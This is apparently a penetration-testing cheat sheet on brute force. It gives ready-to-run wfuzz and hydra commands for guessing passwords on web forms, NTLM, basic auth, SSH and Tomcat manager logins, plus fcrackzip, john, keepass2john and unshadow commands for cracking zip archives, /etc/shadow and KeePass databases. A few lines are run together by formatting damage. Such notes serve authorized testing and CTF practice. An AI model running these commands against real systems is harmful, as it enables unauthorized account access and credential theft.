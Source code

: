 # Brute Force

​

## Weak Credentials <a href="#weak-credentials" id="weak-credentials"></a>

**HTTP Brute Force**

* wfuzz POST

`wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php`

* hydra POST

`hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20`

* wfuzz NTLM

`wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api`

* wfuzz Basic Auth through Proxy

`wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/`

**Password Cracking**

* zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip`

* /etc/shadow

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* keepass

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* Bruteforce Salted

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

Port 22

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

Hydra for login bypass

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

Zip file Bruteforce

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

John

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```
